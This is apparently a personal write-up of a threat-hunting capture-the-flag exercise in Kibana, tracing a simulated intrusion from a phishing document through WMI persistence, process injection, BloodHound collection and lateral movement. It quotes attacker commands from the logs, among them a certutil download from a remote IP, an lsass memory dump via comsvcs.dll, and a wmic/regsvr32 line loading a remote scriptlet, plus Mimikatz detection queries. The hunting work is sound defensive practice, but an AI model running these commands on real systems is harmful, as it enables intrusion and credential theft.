

⛔️ Spoiler alert!
Case Details
This is not an investigation like the previous one. This is threat hunting. So, we have only logs via Kibana available. To harden my knowledge with this technologies I’ve had a very quick overview on ElasticStack website and enrolled in this course. Basically, I will have to answer questing having a loads of logs and a query engine available.
Questions
1. WMI Event Consumer name?
✅ The Threat Hunting process usually starts with the analyst making a hypothesis about a possible compromise vector or techniques used by an attacker. In this scenario, your initial hypothesis is as follows: “The attacker used the WMI subscription mechanism to obtain persistence within the infrastructure”. Verify this hypothesis and find the name of the WMI Event Consumer used by the attacker to maintain his foothold.
I’ve followed the URL in the VM, but there was nothing there. However, there was on port 5601. I opened Discover tab in Kibana. I was not very creative, so, I just filtered by WMI keyword. Then, I’ve looked through the entries and added a Consumer name column (since this one does have a name). In the results, I’ve found the most suspicious one and was right.
2. Parent PID Name?
✅ In the previous step, you looked for traces of the attacker’s persistence in the compromised system through a WMI subscription mechanism. Now find the process that installed the WMI subscription. Answer the question by specifying the PID of that process and the name of its executable file, separated by a comma without spaces.
The first idea that comes to mind is to find a field parent_pid or alike and see, which process was the initiator. Another way is to see, when the whole process of WMI subscription was initialized and set the time frame before that. Consumer binding (final step) took place at 23:26, so we are looking for processes logs before that.
So, it happened on June 21, 2021 📆, at 23:25:47 🕰 (doesn’t look like opeational hours, by the way). So, I’ve set the filter from the 21th of June 2021, from 23:00 till 23:30. I’ve also filtered by keyword wmi.
Right before our WMI event, there was another one: winword.exe process. It’s process id can be seen in proc_id column (it was helpful to add it as a column). So, the whole attack might have been started due to the word doc opening. So, our indicator might be like: a winword.exe process that starts a wmi subscription which doesn’t even sound ok.
Yeah! It wsa correct!
3. SHA256 hash of the file extracted
The process described in the previous question was used to open a file extracted from the archive that user received by email. Specify a SHA256 hash of the file extracted and opened from the archive. Sample answer: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855.
Moving back in time, I’ll try to change the keyword to winword.exe and leave the timeframe the same. Though the time is not within operational hours, I still want to start as close to the WMI event as possible and then move backwards in time.
But first, I’ll examine the event from the previous question. Looks like there is a field proc_cmdline specifying parameters when the process winword was launched. And the doc name is there too: OPEC crude oil production.docx. So, let’s filter by this keyword keeping the timeframe the same just yet. I will also add file_sha256 field to ease the search.
Each time the word process loads a library, a new log entry is created. I would like to filter out all such events at least for now. And I want to opt in to docx files only. So, I’m adding the filter file_name:*.docx.
We also need to keep in mind the sequence of events: email received -> archive opened -> opened with winword.exe. Add filter for OUTLOOK.EXE.
⚠️
nswitch seems malicious when used withdocxfiles, since it opens a file without creating a window instance.oswitch doesn’t have any description over the Internet.
report.zip - 1 hit, File Created. Some zip archive was saved to disk prior to the attack. However, no SHA256 was provided by the log files. Let’s see the same folder. May something was created in the same folder… .
Somehow NOT file_name:*.dll didn’t work. Search for report.zip returns only one result: file created by Outlook. Let’s see who opened it and where was it moved or saved later?
event_type:FileOpen and keyword *.zip -> one hit again. Some Temp_report.zip file was decompressed to market forecast emea.docx, but no signs of the report.zip saved to the initial directory. However, in the process description there was OPEC crude oil production.docx mentioned again. Was the zip file renamed and moved and then the file decompressed also renamed? That was the correct answer. Althout, I don’t quite get the exact chain of events.
🚰 Filter: file_name: *.zip, time span: 📆 June 21, 2021 ⏰ from 22:30 till 23:30.
🚰 Filter:
- File downloaded and saved by
outlook.exeasreport.exein the (filter:event_type:FileCreate AND)
📈Timeline:
- 📆 June 21st, 2021 at ⏰ 23:25:08
report.zipwas created by outlook.exe proccess (FileCreate). At the same very time areport (00000002).zipwas also created at the same very path. Probably, it was the same file, but the event might be coming from different location. However,event_log_sourceseems to be the same,TH. No hashes are provided 😔. FileCreatedAPI was triggered byoutlook.exe. File saved atC:\Users\john.goldberg\appdata\local\microsoft\windows\inetcache\content.outlook\dfn3sfep\report (00000002).zip.- Then some
temp1_report.zipwas also created byexplorer.exe.
4. File downloaded Hash
The file mentioned in question 3, is not malicious in and of itself, but when it is opened, another file is downloaded from the Internet that already contains the malicious code. Answer the question by specifying the address, from which this file was downloaded, and the SHA256 hash of the downloaded file, separated by commas without spaces.
🚰 Filter: keyword: winword.exe AND Category: Network connection detected.
Result in the enrich.chain field: C:\Windows\explorer.exe -> C:\Program Files (x86)\Microsoft Office\Office16\winword.exe -> 188.135.15.49. But this connection was initiated by the compromised PC at ⏰ 23:25:32. Seconds after report.zip was saved on the system.
🚰 Filter: 188.135.15.49
At ⏰ 23:46:10 there were several download requests made via cmd.exe -> certutil.exe.
Right after this 188.135.15.49.url is saved, another request comind from cmd.exe is made (already suspicious). certutil -urlcache -f http://188.135.15.49/chrome_installer.log2 C:\Windows\TEMP\chrome_installer.log2:data (ADS?). certutil created a file (FileCreate). Path 🛣: C:\Windows\System32\config\SystemProfile\AppData\LocalLow\Microsoft\cryptneturlcache\content\3255d8f28805ee17628e0d2c792ca827 and C:\Windows\System32\config\SystemProfile\AppData\LocalLow\Microsoft\cryptneturlcache\metadata\3255d8f28805ee17628e0d2c792ca827. Also, another file was saved by certutil: C:\Windows\System32\config\SystemProfile\AppData\Local\Microsoft\Windows\Inetcache\IE\chrome_installer[1].log2.
🚰 Filter: keyword: chrome_intaller.log2, Timespan expanded (21/06/2021 23:00 - 22/06/2021 01:30).
Then at ⏰ 23:46:16 certutil was used to decode the file downloaded and saved as at C:\Windows\TEMP\svchost.exe.
At ⏰ 23:46:17 svchost was started (PID 3280) and SHA256 is 88EAE7C94142232FBB961DD8381FAEF23129B9F958BE283AE8393D28FED2092B. However, somehow the answer 188.135.15.49,88EAE7C94142232FBB961DD8381FAEF23129B9F958BE283AE8393D28FED2092B was not correct. Hm, may be they require the hash of chrome_installer.log2? But there is nothing in file_sha256. Where am I supposed to get that one?
🚰 Filter: keyword: chrome_intaller, the timespan the same as previous.
Just one result: chrome_installer[1].log2 was found. What I find curious, is that chrome_installer.log2 wasn’t.
🚰 Filter: event_type: FileCreate, the timespan is within 21/06/2021, from 23:46:00 to 23:50:00.
Lots of json files, going by the name, Bloodhound was in place, leaking users and domains.
🚰 Filter: event_type:NetworkConnection AND (net_src_ipv4:188.135.15.49 OR net_dst_ipv4:188.135.15.49)
In total, there were 7 hits. 5 initiated by winword.exe (at around 23:25) and 2 - later by certutil (at around 23:46).
🚰 Filter: ( (cmdline:(powershell OR SyncAppvPublishingServer OR pwsh) OR proc_file_originalfilename:“PowerShell.EXE” OR proc_file_productname:“PowerShell Core 6” OR proc_file_description:“Windows PowerShell” OR event_log_source:PowerShell AND event_id:400) AND cmdline:(“Invoke-Mimikatz” OR “Invoke-ReflectivePEInjection” OR “Invoke-ReflectiveDllInjection” OR “Write-BytesToMemory” OR “Enable-SeDebugPrivilege” OR “Create-RemoteThread”) ) OR (( (event_log_source:PowerShell AND event_id:800) OR (event_log_source:“Microsoft-Windows-PowerShell” AND event_id:4104) ) AND script_text:(“Invoke-Mimikatz” OR “Invoke-ReflectivePEInjection” OR “Invoke-ReflectiveDllInjection” OR “Write-BytesToMemory” OR “Enable-SeDebugPrivilege” OR “Create-RemoteThread”))
14 hits. 23:33 and 23:41
🚰 Filter: (cmdline:(mimikatz DumpCerts DumpCreds “invoke-mimikatz”)) OR (cmdline:(kerberos sekurlsa logonpasswords lsadump privilege) AND cmdline.keyword:::)
Nothing
🚰 Filter: event_type:NetworkConnection AND proc_file_path:("\excel.exe" OR “\winword.exe” OR “\powerpnt.exe”) AND (enrich.ti.net_dst_ipv4.categories:Malware OR enrich.ti.net_src_ipv4.categories:Malware)
5 hits, the same as above, when I filtered by a specific IP.
🚰 Filter: event_type:FileCreate AND proc_file_path:("\excel.exe" OR “\winword.exe” OR “\powerpnt.exe”) AND file_path.keyword:(*.exe OR *.dll OR *.cpl OR *.msi OR *.sys)
No need it excel or powerpoint, but I’ve left them just in case. No results, anyway. Got 1 hit when added OR *.ps1.
🚰 Filter: event_type:ProcessCreate AND proc_p_file_path:("\excel.exe" OR “\winword.exe” OR “\powerpnt.exe”) AND (proc_file_path:"\cmd.exe" OR cmdline:(cmd.exe “*cmd *”))
This filter shows when some office application launches a command line (that’s not okay)! Nothing.
🚰 Filter: proc_file_path:"\rundll32.exe" AND cmdline.keyword:/.*#[0-9]+/
No dll function was executed via ordinal number through rundll32.exe. If I remove ordinal number requirement, I get 68 hits. At 23:50:14 this exe was used to create a memory dump at C:\Windows\Temp folder. Marked as credential dumping. The command was rundll32.exe C:\Windows\System32\comsvcs.dll,MiniDump 748 C:\Windows\TEMP\dump.bin full. Looks like memdump with a built-in tool. 748 is the PID of the target process. What process is that? Presumably, lsass, but let’s check with a filter.
The file that’s mentioned in the question is obviously the Market Forecast Emea.docx that was opened at 23:27:15. The downloading should have occured right after that, so I need to narrow down the time frame.
5. OS component Hash
The malicious code from the file, mentioned in question 4, directly installed a WMI subscription, which we started our hunting with, and also downloaded several files from the Internet to the compromised host. For file downloading, the attacker used a tricky technique that gave him the opportunity to hide the real process, which initiated the corresponding network activity. Specify the SHA256 hash of the operating system component whose functionality was used by the attacker to download files from the Internet.
Probably, they are asking about certutil’s SHA. Hm, no. Seems to be some other technique. I’ve got a hint from other resources that enrich.ioa.max_confidence:exists might be helpful. Besides, https://cyberpolygon.com/materials/hunting-for-advanced-tactics-techniques-and-procedures-ttps/ gives a hint about a possible technique: ieproxy.dll COM object. The filter would be either of the two:
- enrich.ioa.max_confidence:exists, time frame between 23:24 and 23:30. Look for something right after WMI execution.
- event_type:ImageLoad AND file_path:"*\ieproxy.dll" AND proc_file_path:("\cscript.exe" OR “\wscript.exe” OR “\powershell.exe” OR “\winword.exe” OR “\excel.exe” “\powerpnt.exe” OR “\mspub.exe” OR “\visio.exe” OR “\msaccess.exe” OR “\regsvr32.exe”)
5516176cd0f4204ef8cf563c1dd6b3991b134d17eef2cc5e62e7f6c7aadfbb37 - ieproxy.dll hash.
6. Malicious Domain Name
Specify the domain name of the resource from which the files mentioned in question 5 were supposedly downloaded as a result of malicious code execution.
Right after the image load of the library above, there is a DNS request to raw.githubusercontent.com.
7. MD5 of Encoded code
The first file downloaded (as a result of executing the code in question 5) contained encoded executable code (PE), which after downloading was recorded in the registry. Specify an MD5 hash of the original representation of that code (PE).
⏰ 23:26:03.000
The code was saved to registry, the same technique that was used in the previous challenge (CyberCorp). This event happened right after the ieproxy.dll load. The registry key is 🔑 : hkey_current_user\software\registeredapplications\appxs42fd12c3po92dynnq2r142fs12qhvsmvv.
When looking for an answer to the 8th question, I could see the code for the script. At the very beginning there was a decoding block. It’s not hard to copy this data into PowerShell script to see the final result. I am going to add event_log_source column to look for Windows PowerShell logs, that usually log the script body as well. In the enrich.description I will be looking for [1 of 7], meaning the first part out of 7 of the script:
Process with PID '5952' execute a script (powershell) 📜️'c:\users\john.goldberg\appdata\roaming\microsoft\office\mso1033.ps1' [1 of 7]
And here is the code:
New-PSDrive HKU Registry HKEY_USERS
$rk = "HKU:\S-1-5-21-3899523589-2416674273-2941457644-1104\Software\RegisteredApplications"
$rv = "AppXs42fd12c3po92dynnq2r142fs12qhvsmvv"
$p = (gp -Path $rk -Name $rv).$rv
$CompBytes = [System.Convert]::FromBase64String($p)
$input = New-Object System.IO.MemoryStream(,$CompBytes)
$output = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream $input,([IO.Compression.CompressionMode]::Decompress)
$gzipStream.CopyTo($output)
$gzipStream.Close()
$input.Close()
[byte[]] $PEBytes = $output.ToArray()
I will modify it a little (cropped the base64 strings here). A helpful resource here.
$rk = "H4sIAAAAAAAEAO1Y[...]QAAA=="
$CompBytes = [System.Convert]::FromBase64String($rk)
$input = New-Object System.IO.MemoryStream(,$CompBytes)
$output = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream $input,([IO.Compression.CompressionMode]::Decompress)
$gzipStream.CopyTo($output)
$gzipStream.Close()
$input.Close()
[byte[]] $PEBytes = $output.ToArray()
$hasher = [System.Security.Cryptography.HashAlgorithm]::Create('md5')
$hash = $hasher.ComputeHash($PEBytes)
$hashString = [System.BitConverter]::ToString($hash)
$hashString = $hashString.Replace('-','')
Write-Output $hashString
Yes! 🙌 I’ve saved the executable with the following script:
import base64
import zlib
string="H4sIA[...]=="
with open("/Users/veronicazvereva/Documents/dfir/cases/CyberPolygon2/malicious.exe", "wb") as exe:
exe.write(zlib.decompress(base64.b64decode(string), 15 + 32))
Now, I need radare2 or IDA Pro to get some insight into what that code is doing. Luckily, the code is very small and should not be hard to untangle. From the very glance I’ve recognized some process injection technique. Which one? I will use my own article to determine which one and also this one.
Seems to be something in between the Process Hollowing and SIR (Suspend, Inject, Resume). The process is created by the malware, like in Process Hollowing, but instead of the whole executable being substituted, just the the thread of rundll32.exe is overwritten.

This gives me another hint to look for in the future: rundll32.exe might is probably malicious now (if the code above was executed successfully).
8. WMI Starter’s SHA256
The second file downloaded (as a result of code execution, which we talked about in question 5) was a script, that was set up to autostart via WMI Subscription. Specify the SHA256 hash of this script.
If I observe the chain of event from the same filters, I see that there were two files were downloaded from raw.githubusercontent.com. The second one is obviously a PowerShell script, called mso1033.ps1. I need its hash though. The actual scrip is logged in Windows PowerShell Event Logs, but it’s split into 7 part, recorded in 7 separate events, which will make is quite exhausting to assemble. It would be much better to look for simpler ways.
This script was started by wmiprvse.exe, so, it’s our guy.
🚰 Filter: mso1033.ps1 as a keyword, time frame 23:24-23:40 and file_sha256:exists.
Haha! Yes! 6df4709[…]49ef5. Great!
9. Code Injection
The script, mentioned in question 8, spawned one of the legitimate system processes and injected into its memory a malicious code that was read and decoded from the registry (this code was mentioned in question 7). This malicious code migrated through a chain of code injections to the address space of another legitimate process, where it continued to run without further migration. For this answer, provide the next data, separated by a comma without spaces: - PID of the initial legitimate system process, which was spawned by the script and where this script launched in-memory execution of malicious code; - PID of the target process, to which malicious code migrated from the initial process and in the context of which attacker performed different post-exploitation activity
The firdt process is most likely rundll32.exe, and the second is svchost.exe. I could not find anything by looking for rundll32. I’ve decided to look through the ps1 script:
[int]$ppid = Get-Process -Name "winlogon" | Select -expand ID
$spawnTo = "c:\Windows\System32\dwm.exe"
$currdir = "c:\Windows\System32"
$cmdline = "dwm.exe"
$sInfo = New-Object StartupInfo
$sInfoEx = New-Object STARTUPINFOEX
$pInfo = New-Object PROCESS_INFORMATION
$SecAttr = New-Object SECURITY_ATTRIBUTES
$SecAttr.nLength = [System.Runtime.InteropServices.Marshal]::SizeOf($SecAttr)
$sInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($sInfoEx)
$lpSize = [IntPtr]::Zero
$sInfoEx.StartupInfo = $sInfo
$hSpoofParent = [Kernel32]::OpenProcess(0x1fffff, 0, $ppid)
$lpValue = [IntPtr]::Zero
$lpValue = [System.Runtime.InteropServices.Marshal]::AllocHGlobal([IntPtr]::Size)
[System.Runtime.InteropServices.Marshal]::WriteIntPtr($lpValue, $hSpoofParent)
$result1 = [Kernel32]::InitializeProcThreadAttributeList([IntPtr]::Zero, 1, 0, [ref]$lpSize)
$sInfoEx.lpAttributeList = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($lpSize)
$result1 = [Kernel32]::InitializeProcThreadAttributeList($sInfoEx.lpAttributeList, 1, 0, [ref]$lpSize)
The chain of execution is as follows: powershell.exe 7324 -> winlogon 1160 -> dwm.exe 8876 -> rundll.32 8344.
I could not understand, why my answers are not correct. I’ve found the correct chain of events using the following technique:
- By reverse engineering the
mso1033.ps1script I know, that it searched for winlogon PID and spawns dwm.exe spoofing the parent process. It seems to be winlogon, when it’s obviously powershell.exe. That’s why we need to look for all events whereproc_p_file_path: *winlogon AND proc_file_path: *dwm.exe. In other words, all events where the parent is winlogon and the child is dwm.exe. There are several instances where winlogon spawns dwm.exe. Why? Becausedwm.exeis usually the child ofwinlogon.exe. - Also from reverse engineering the script mentioned above, I know that the PE saved in registry is then injected into
rundll32.exe, spawned by thisdwm.exe. - So, the actual chain of events observed in logs is: winlogon.exe 1160 (spoofed) -> dwm.exe 8876 -> rundll32.exe 8344. However, in reality it is powershell.exe 7324 -> dwm.exe 8876 -> rundll32.exe 8344.
So, here are the answers:
PID of the initial legitimate system process, which was spawned by the script and where this script launched in-memory execution of malicious code;
This is dwm.exe, 8876, spawned by powershell.exe.
PID of the target process, to which malicious code migrated from the initial process and in the context of which attacker performed different post-exploitation activity
The script spoofed parent id to winlogon.exe, 1160, making it look like winlogon performed all those crappy 💩 stuff. I don’t understand, why they are saying “migrated”. Yes, attacker did perform other things in the context of winlogon.exe. The code from the registry was PE reflected into dwm.exe process created, but not into winlogon.exe.
10. C2C
The malicious code run by the script is a Reverse Shell. Identify the IP address and port number of its command center.
So, ps1 scripts runs this small piece of code from the registry within the dwm.exe address space. This code performs this combined technique (Process Hollowing + SIP) with rundll32.exe process, writing shellcode into its memory. So, I am going to look through the rundll32.exe’s activity (PID 8344): proc_id: 8344 and the timeframe 🕰 23:00 - 23:59.
94.177.253.126:443
11. Path of and Hash of Bloodhound
As a result of running a malicious code, which we talk about in questions 9 and 10, the attacker got a shell on the compromised host. Using this access, the attacker downloaded the Active Directory collection utility to the host in an encoded form. Specify a comma-separated, non-spaced link where the encoded version of the utility was downloaded and a SHA256 hash of the decoded version that was directly run by the attacker on the compromised host.
event_type=FileCreate and the timeframe is a little extended to the right: up to the next day, 3pm.
event_type=ProcessCreate, timeframe narrowed now. Seems strange, winlogon spawning cmd.exe. How ok is that? Seems not ok according to the first search result. Let’s use the cmd.exe’s PID as a filter and see what it has done and its privileges. At the moment it seems it has SYSTEM privileges which is definetelu NOT ok.
PID 9316 cmd.exe -> temp\svchost.exe
PID 5868 winlogon -> cmd.exe
Filter for proc_id:5868. Aha! Several injections as well. Seems to be injection code into conhost.exe, net.exe (4272), tasklist.exe (1128), findstr.exe (2268), rundll32.exe (4760), net1.exe (6020). Now let’s do proc_p_id:5868.
EB41B254964FB046656A7312C8547674577C4A2229360CC12F5B1289280B92C3
12. Memory dump
During the post-exploitation process, the attacker used one of the standard Windows utilities to create a memory dump of a sensitive system process that contains credentials of active users in the system. Specify the name of the executable file of the utility used and the name of the memory dump file created, separated by a comma without spaces.
13. Login And Password of a privileges account
Presumably, the attacker extracted the password of one of the privileged accounts from the memory dump we discussed in the previous question and used it to run a malicious code on one of the domain controllers. What account are we talking about? Specify its username and password as the answer in login:password format.
NOT Category: DNS query initiated
NOT Category: Library Loaded
NOT EventCategory:Success Audit
NOT wmi_usr_fullname:CYBERCORP\inventory
NOT proc_p_usr_fullname:CYBERCORP\inventory
net_dst_ipv4:192.168.184.100
Found a command: regsvr32 /s /n /u /i:http://94.177.253.126:8080/Ec9KoocK.sct scrub.dll. This was launched by the same old wmic. Then I’ve set the filter for Ec9KoocK as a keyword and strangely enough nothing was found. No, literally nothing, not even the above mentioned event. Added * at the beggining and the end of this string and got one event in response.
The wmic process which created another process. Opened it and saw the command:
wmic /node:192.168.184.100 /user:inventory /password:[somepassword] process call create 'regsvr32 /u /n /s /i:http://94.177.253.126:8080/Ec9KoccK.sct scrobj.dll'
I wonder, if adding these * before and after password would have helped finding the process faster. Yes… . I’ve tried searching for password instead and got almoust not results. Without the * I was only getting those events that contained this word preceeded or followed by spaces. In case of the above command it was not, it’s one string with the / and :. Yeah, if only I knew, this would spead up the process a lot 😃.
By the way, what’s the Ec9KoocK.sct then? At first I thought that this is somehow decrypted and the password is stored there. But from the command above that’s obvious that this is not the case. Since PowerShell was used to decrypt the file, it was logged in WindowsPowerShell event logs with the script body itself. Decrypting it with the below python 🐍 script showed me that this is some injection of a shellcode.
string="thisbighugevalue"
with open("/Users/username/cases/CyberPolygon2/malicious3", "wb") as exe:
exe.write(zlib.decompress(base64.b64decode(string), 15 + 32))
14. Group SID of the compromised account
A compromised user account is a member of two Built-in privileged groups on the Domain Controller. The first group is the Administrators. Find the second group. Provide the SID of this group as an answer.
(NOT Category: DNS query initiated) AND (NOT Category: Library Loaded) AND (NOT EventCategory:Success Audit)
Inventory data of host […] provides the list of users and groups. There is an Administators group that contained the following data:
{
"sid": "S-1-5-32-544",
"name": "BUILTIN\\Administrators",
"members": [
"CYBERCORP\\Administrator",
"CYBERCORP\\Enterprise Admins",
"CYBERCORP\\Domain Admins",
"CYBERCORP\\inventory"
]
},
Checked the inventory account, it is also in another group:
{
"sid": "S-1-5-32-551",
"name": "BUILTIN\\Backup Operators",
"members": [
"CYBERCORP\\backupsrv",
"CYBERCORP\\inventory"
]
},
{
"sid": "S-1-5-21-3899523589-2416674273-2941457644-1105",
"name": "CYBERCORP\\Workstation Administrators",
"members": [
"CYBERCORP\\john.goldberg",
"CYBERCORP\\inventory"
]
}
Only the first one is also a BUILTIN group.
IP address for Reverse Shell
As a result of malicious code execution on the domain controller using a compromised account, the attacker got a reverse shell on that host. This shell used a previously not seen IP address as the command center. Specify its address as the answer.
While getting the #13 answered, I’ve notices an IP connection that seemed suspicious. Was a pure intuition.
Strategy
Timeline
📆 21/06/2021
⏰ 23:25:08
report.zip was created by outlook.exe proccess (FileCreate). report (00000002).zip was also created at the same very path. Path 🛣:
⏰ 23:25:32
Looks like beaconing. Sec 32…sec 35…sec38. Sec 38 - three requests in a row. Originated from winword.exe.
⏰ 23:25:50
WMI command was executed. Filter created?
⏰ 23:25:57
Ieproxy.dll is loaded by winword. Then a request to some raw.githubusercontent.com is made.
⏰ 23:26:03
Something was downloaded from raw.githubusercontent.com and saved in registry: hkey_current_user\software\registeredapplications\appxs42fd12c3po92dynnq2r142fs12qhvsmvv. This event also had the value dumped, it’s a base64 encoded string.
⏰ 23:26:09
Using the same ieproxy.dll COM technique, winword.exe downloaded the second file, this time a PowerShell script: mso1033.ps1.
PowerControl Consumer was created.
⏰ 23:34:01 winlogon spawns dwm.exe, started by the ps1 script.
⏰ 23:46:10
Several download requests made via cmd.exe -> certutil.exe.
⏰ 23:46:16
certutil was used to decode the file downloaded and saved as at C:\Windows\TEMP\svchost.exe.
⏰ 23:46:17
svchost was started (PID 3280) and SHA256 is 88EAE7C94142232FBB961DD8381FAEF23129B9F958BE283AE8393D28FED2092B
⏰ 23:48:10
svchost created goups.json
⏰ 23:48:11
svchost.exe created a file C:\Windows\Temp\20200630024732_bloodhound.zip. proc_id = 9316.
bloodhound.zip, svchost.exe.log, domains.json, ous.json, gpos.json, users.json.
⏰ 23:50:14
dump.bin created with rundll32.exe.
⏰ 00:19:43 powershell established connection with 190.150.52.34:8443
⏰ 00:21:22
cmd.exe created wmic.exe. And the command:
wmic /node:192.168.184.100 /user:inventory /password:[somepassword] process call create 'regsvr32 /u /n /s /i:http://94.177.253.126:8080/Ec9KoccK.sct scrobj.dll'